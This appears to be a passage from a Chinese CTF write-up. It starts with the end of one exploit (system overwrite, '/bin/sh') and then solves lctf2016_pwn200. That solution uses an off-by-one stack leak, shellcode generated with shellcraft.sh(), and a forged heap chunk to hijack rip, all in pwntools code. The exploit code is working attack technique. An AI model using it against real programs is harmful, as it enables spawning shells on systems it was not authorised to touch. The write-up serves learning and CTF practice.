 ```python
edit(2,p32(system))
sla('>>\n','/bin/sh\x00')
```

### lctf2016_pwn200

首先不难发现读入 `name` 时存在 off-by-one，可以借此泄露栈地址。为了后面 ret2shellcode，我们可以先在 `name` 里顺便写好 shellcode：

```python
payload = asm(shellcraft.sh()).ljust(48,'a')
sa('u?\n',payload)
ru(payload)
rbp = uu64(ru(', w',True))
leak('rbp',rbp)
```

而读入 `money` 时，恰好可以覆盖到堆指针 `dest`。那么可以覆盖 `dest` 为我们伪造的 chunk，同时准备好 `id`（只需要大于 0x10 小于 0x21000 即可）作为 `nextsize`，这样就可以先释放再申请这个 fake chunk，就可以控制 rip 了，最后覆盖 rip 为 shellcode 地址。

通过 gdb 调试，可以绘制大致的栈结构图：

```
 ------------ <- leaked rbp
|            | 0x20
 ------------ <- rbp
| shellcode  | 0x30
 ------------ <- shellcode_addr  --
| 0x20       | id                 |
 ------------                     |
|            |                    |
 ------------                     |
| rip        |                    | 0x40
 ------------                     |
| rbp        |                    |
 ------------                     |
| dest       |                    |
 ------------ <- fake            --
| 0x41       |
 ------------
| prev_size  |
 ------------
| ...        |
```

由此可以得到：

```python
sc = rbp-0x50
fake = rbp-0x90
```

从而伪造堆块：

```python
sla('id ~~?\n',str(0x20))
sa('money~\n',p64(0)*4+flat(0,0x41,0,fake))

sla('choice :','2') # free
sla('choice :','1') # malloc
sla('long?',str(0x30)) # + 0x10 = 0x40
ru('48')
sl(flat('a'*0x18,sc))
sla('choice :','3')
```

